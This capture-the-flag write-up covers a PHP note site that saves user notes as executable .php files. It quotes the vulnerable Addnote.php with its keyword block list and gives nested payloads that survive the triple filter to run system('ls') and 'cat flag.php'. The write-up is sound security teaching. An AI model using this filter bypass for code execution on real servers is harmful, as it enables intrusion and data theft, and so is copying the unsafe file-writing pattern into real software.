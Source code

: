 # PHat Pottomed Girls

## Challenge Description

![image](https://user-images.githubusercontent.com/56489087/139527309-ee0b8d13-c9a3-4754-8964-348076f03130.png)

## Target

We can see the the website is just a note creating site that contain links to notes in a php file format. If they are saved in PHP that means we can use PHP to execute code. 

![image](https://user-images.githubusercontent.com/56489087/139527977-b20ce664-e0bd-4232-8aba-fa420a6dce55.png)


## Addnote.php

File provided in challenge.

```php
<?php
session_start();

function generateRandomString($length = 15) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
function filter($originalstring)
{
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}

if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];

    //3rd times the charm and I've learned my lesson. Now I'll make sure to filter more than once :)
    $notetoadd = filter($newnote);
    $notetoadd = filter($notetoadd);
    $notetoadd = filter($notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```

We can see that the filter function is being used on our payload 3 times. Because it search out and replaces it with nothing, it closes the gaps within our payload. After some testing  we came up with this payload.

> <<<<????php ssssystemystemystemystem("ls"); ????>>>>

It will progress in such a way that the last payload left will evaluate to:

```php
<?php system("ls"); ?>
```

This command will allow us to read the contents of the root directory.

We can then find the name of the flag file and read its contents.

> <<<<????php ssssystemystemystemystem("ccccatatatat fffflaglaglaglag.php"); ????>>>>
```php
<?php system("cat flag.php"); ?>
```

![image](https://user-images.githubusercontent.com/56489087/139528082-7b83b53e-8123-4fec-97a7-6c659a64d35a.png)

